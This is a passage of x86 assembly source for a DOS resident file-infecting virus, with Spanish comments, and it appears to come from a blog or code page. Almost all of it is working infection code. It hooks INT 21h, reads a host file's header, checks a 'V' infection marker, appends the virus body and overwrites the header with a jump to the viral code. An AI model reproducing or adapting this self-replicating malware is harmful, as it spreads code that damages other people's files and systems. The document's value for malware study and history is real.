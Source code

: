                     mov ah, 3Fh                             ; | AH = 3Fh  
                    mov cx, 4                               ; | CX = tamaño del cabezal, 4 bytes  
                    lea dx, [bp + host_head]                ; | DS:DX -> destino: buffer para cabezal original  
                    int 21h                                 ; |_DOS API - Leer de archivo/dispositivo

                    jc close_file                           ; no se puede leer el archivo, cerrarlo

                    cmp byte ptr [bp + host_head + 3], 'V'  ; comparar 4to byte con la firma viral &#8216;V&#8217;  
                    je close_file                           ; si el archivo ya esta marcado, cerrarlo

                    mov ah, 42h                             ;| AH = 42h  
                    mov al, 2                               ;| AL = 2, fin del archivo  
                    xor cx, cx                              ;| CX = 0  
                    xor dx, dx                              ;| DX = 0  
                    int 21h                                 ;|_DOS API - Establecer puntero en archivo 

                    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo  
                    mov [bp + file_size], ax

                    mov ah, 40h                             ; | AH = 40h  
                    mov cx, virus_size                      ; | CX = tamaño del virus  
                    lea dx, [bp + body]                     ; | DS:DX -> origen: inicio del código viral  
                    int 21h                                 ; |_DOS API - Escribir en archivo/dispositivo 

                    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo

                    mov ax, [bp + file_size]                ; calcular el largo del JMP para el cabezal viral  
                    sub ax, 3                               ; restarle 3 bytes del near JMP  
                    mov byte ptr [bp + tmp_head], 0E9h      ; construir cabezal viral en buffer temporal (E9h = near JMP)  
                    mov word ptr [bp + tmp_head + 1], ax  
                    mov byte ptr [bp + tmp_head + 3], 'V' 

                    mov ah, 42h                             ; | AH = 42h  
                    mov al, 0                               ; | AL = 0, principio del archivo  
                    xor cx, cx                              ; | CX = 0  
                    xor dx, dx                              ; | DX = 0  
                    int 21h                                 ; |_DOS API - Establecer puntero en archivo 

                    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo

                    mov ah, 40h                             ; | AH = 40h  
                    mov cx, 4                               ; | CX = tamaño del cabezal, 4 bytes  
                    lea dx, [bp + tmp_head]                 ; | DS:DX -> origen: buffer temporal para cabezal viral  
                    int 21h                                 ; |_DOS API - Escribir en archivo/dispositivo 

    close_file:     mov ah, 3Eh                             ; | AH = 3Eh  
                    int 21h                                 ; |_DOS API - Cerrar archivo 

          exit:     pop ds                                  ; restaurar registros y estado CPU  
                    pop si  
                    pop dx  
                    pop cx  
                    pop bx  
                    pop ax  
                    popf

   handler_old:     db 0EAh                                 ; JMP FAR  
   vector_int21     dw ?, ?                                 ; vector original de INT 21h (4 bytes)

      host_head     db 90h, 90h, 90h, 90h                   ; buffer para cabezal original  
     virus_size     equ ($ - body)                          ; tamaño del virus  
      file_size     dw ?                                    ; buffer temporal para tamaño del huésped  
       tmp_head     db 4 dup (?)                            ; buffer temporal para cabezal viral

           eof:                                             ; fin de porción residente para TSR 

         virus      ends  
           end      start  
{% endhighlight %}

